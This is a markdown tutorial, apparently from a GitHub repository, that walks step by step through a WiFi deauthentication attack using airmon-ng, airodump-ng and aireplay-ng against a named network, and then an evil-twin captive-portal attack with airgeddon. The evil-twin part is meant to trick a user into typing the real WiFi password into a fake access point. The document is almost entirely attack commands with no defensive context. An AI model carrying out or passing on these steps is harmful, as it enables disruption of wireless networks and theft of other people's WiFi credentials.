




## **Wifi Deauthentication**

```
sudo lsusb
```
                                                     
```
sudo apt install realtek-rtl8814au-dkms
```

```
ip addr
```

```
cat /etc/os-release
```

```
sudo airmon-ng check kill
```

Now we will change it to monitor mode

```
sudo airmon-ng start wlan0
```



```
sudo airodump-ng wlan0
```



Here we will attack in Winwalk-2g and channel is BSSID

BSSID: A8:3A:48:37:54:00

Channel: 10

```
sudo iwconfig wlan0 channel <channel>  
```

```
sudo airodump-ng -c <channel> --bssid <bssid> wlan0 (should be running)
```

```
sudo aireplay-ng --deauth 50 -a <bssid> wlan0
```


**TO STOP THIS ATTACK (FOR LINUX)**

```
ps aux | grep aireplay-ng
```

```
kill -9 <PID>
```

## **Evil-Twin attack**

```
git clone https://github.com/v1s1t0r1sh3r3/airgeddon
```

```
cd airgeddon
```

```
./ airgeddon.sh
```




We will install every command



Select wlan0 by typing

```
2
```

Now put it in monitor mode

```
2
```

Now we have to do evin twin attack

```
7
```

Now we will do Evil twin AP attack with captive portal

```
9
```

Press Enter now

It scans on its own now

If we find our desired wifi press

```
Ctrl + C
```

Now select device no.

(number)

Now we will do Deauth aireplay attack

```
2
```

It asks for channel hopping, mac and IP spoofing  but we wont do it, so in all press

```
N
```

It asks for a handshake capture which we don’t have so we will press

```
N
```

It asks us for a time which is default 20 seconds so press

Enter

We will have 2 tabs and the black and white one will show when our handshake is captured

It asks us to save password but let us keep it at default

Press enter for password

Now it will ask us for the language of the wifi Press

```
1
```

It asks us about advanced captive portal

```
N
```

Click enter again

Don’t close any screen

We will see 2nd wifi with same name

Now if user enters his wifi password correct one in us, we get his password

We will have a file in root directory with wifi